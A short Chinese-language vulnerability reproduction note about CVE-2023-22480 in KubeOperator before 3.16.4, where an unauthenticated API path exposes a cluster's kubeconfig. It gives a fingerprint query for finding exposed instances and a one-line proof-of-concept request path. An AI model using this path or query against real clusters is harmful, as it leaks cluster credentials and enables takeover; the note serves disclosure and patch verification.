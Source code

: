 # KubeOperator kubeconfig 未授权访问漏洞 CVE-2023-22480

# KubeOperator kubeconfig 未授权访问漏洞 CVE-2023-22480

## 漏洞描述

KubeOperator 是一个开源的轻量级 Kubernetes 发行版，专注于帮助企业规划、部署和运营生产级别的 Kubernetes 集群。CVE-2023-22480 中，由于下载kubeconfig的路径不需要身份认证，导致攻击者可直接下载kubeconfig获取相关敏感信息。

## 漏洞影响

KubeOperator < 3.16.4

## 网络测绘

```
app="KubeOperator"
```

## 漏洞复现

登陆页面

![image-20230504140910659](images/image-20230504140910659.png)

在补丁中修复了配置文件下载接口的未授权

![image-20230504140927095](images/image-20230504140927095.png)

当集群存在时可通过接口未授权下载配置文件

![image-20230504140945600](images/image-20230504140945600.png)

验证POC (k8s为集群名称，不固定)

```
/api/v1/clusters/kubeconfig/k8s
```

![image-20230504141007260](images/image-20230504141007260.png)


